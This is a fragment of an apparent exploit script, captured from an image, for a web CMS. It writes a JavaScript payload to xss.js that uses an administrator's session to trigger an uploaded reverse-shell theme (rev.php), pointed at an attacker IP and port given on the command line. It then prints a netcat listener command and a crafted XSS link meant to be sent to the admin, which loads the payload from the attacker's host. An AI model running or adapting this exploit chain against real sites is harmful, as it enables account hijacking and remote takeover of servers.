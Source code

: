 ```python

xhr3.open("GET", urlRev);

xhr3.send();

xhr3.onload = function() {

 if (xhr3.status == 200) {

   var xhr4 = new XMLHttpRequest();

   xhr4.withCredentials = true;

   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");

   xhr4.send();

   xhr4.onload = function() {

     if (xhr4.status == 200) {

       var ip = "'''+str(sys.argv[2])+'''";

       var port = "'''+str(sys.argv[3])+'''";

       var xhr5 = new XMLHttpRequest();

       xhr5.withCredentials = true;

       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);

       xhr5.send();

     }

   };

 }

};

'''

  try:

    open("xss.js","w").write(data)

    print("[+] xss.js is created")

    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))

    print("----------------------------\n")

    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""

    XSSlink = XSSlink.strip(" ")

    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)

    print("----------------------------\n")
```